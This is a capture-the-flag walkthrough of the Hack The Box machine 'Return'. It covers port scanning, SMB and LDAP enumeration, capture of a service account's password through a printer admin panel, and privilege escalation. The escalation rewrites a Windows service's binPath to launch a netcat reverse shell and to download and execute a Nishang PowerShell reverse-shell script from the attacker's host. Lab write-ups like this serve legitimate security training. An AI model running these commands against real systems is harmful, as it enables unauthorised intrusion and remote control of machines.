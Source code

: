 # Return

This is my walk-through of the machine located at: [https://app.hackthebox.com/machines/Return](https://app.hackthebox.com/machines/Return).

nmap scan: `nmap -T4 -A 10.10.11.108 -oN return.nmap`

```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-20 15:01 EST
Nmap scan report for 10.10.11.108
Host is up (0.034s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-12-20 20:26:53Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=12/20%OT=53%CT=1%CU=36731%PV=Y%DS=2%DC=T%G=Y%TM=61C0E1
OS:40%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=105%TI=I%CI=I%II=I%SS=S%TS
OS:=U)OPS(O1=M54DNW8NNS%O2=M54DNW8NNS%O3=M54DNW8%O4=M54DNW8NNS%O5=M54DNW8NN
OS:S%O6=M54DNNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y
OS:%DF=Y%T=80%W=FFFF%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%
OS:S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD
OS:=Z)

Network Distance: 2 hops
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 25m06s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-12-20T20:27:06
|_  start_date: N/A

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   39.17 ms 10.10.14.1
2   33.44 ms 10.10.11.108

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.10 seconds
```

I then went on the IP Address and found this page:

![](<../../.gitbook/assets/image (342) (1) (1) (1).png>)

I then ran **gobuster** on the IP Address: `gobuster dir -u 10.10.11.108 -w directory-list-2.3-big.txt -t 60`. I ended up with the following, which wasn't very helpful:

![](<../../.gitbook/assets/image (326) (1).png>)

I then tried found the nmap command to enumerate ldap: `nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' 10.10.11.108`.The nmap script was taking a while, so I went to the walk-through to see where I had gotten off of track. I found out that I should use **enum4linux** in order to enumerate for SMB: `enum4linux -a 10.10.11.108`. I then found this information:

![](<../../.gitbook/assets/image (329) (1) (1) (1).png>)

The walk-through mentioned that we should enter our own IP Address in the **Server Address** section on the website. Using that I got a shell:

![](<../../.gitbook/assets/image (345) (1) (1) (1) (1) (1).png>)

The walk-through then mentioned using the **evil-winrm** tool. I learned that, while I was able to overwrite the password for the svc-printer user, it would be overwritten by its own system. The walk-through pointed out that the password would be what is shown by the output of netcat connection previously:

![](<../../.gitbook/assets/image (334) (1) (1) (1) (1).png>)

Looking around, I was able to find the **user.txt** flag in the Desktop of the svc-printer user:

![](<../../.gitbook/assets/image (335) (1) (1) (1).png>)

I am not too familiar with Windows commands, so the walk-through mentioned running the `net user svc-printer` command:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1).png>)

Again, I had to view the write-up to see where to go from here. From the commands, you are uploading netcat onto the system, and then configuring netcat to be run and connect to your machine:

`upload /usr/share/windows-resources/binaries/nc.exe`&#x20;

`sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe <YOUR-IP> 1234"`. After having a netcat listener setup on another tab, I was able to get a connection:

![](<../../.gitbook/assets/image (330) (1) (1) (1).png>)

The official walk-through got me to become root, however, I was not able to do anything on the machine. I then found this [write-up](https://readysetexploit.wordpress.com/2021/10/12/hack-the-box-return/) that helped me setup a proper shell. Here are the commands I used:

```
Download the Nishang script for Powershell:
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

Have a netcat listener opened in another teminal window (using rlwrap):
rlwrap nc -lvnp <PORT>

Have a python3 http server online on another teminal window:
sudo python3 -m http.server 80

Upload that to the server with the evil-winrm terminal:
sc.exe config vss binPath="C:\Windows\System32\cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"

Restart the executable:
sc.exe stop VSS
sc.exe start VSS
```

I was then able to get the root.txt file:

![](<../../.gitbook/assets/image (332) (1) (1) (1) (1).png>)

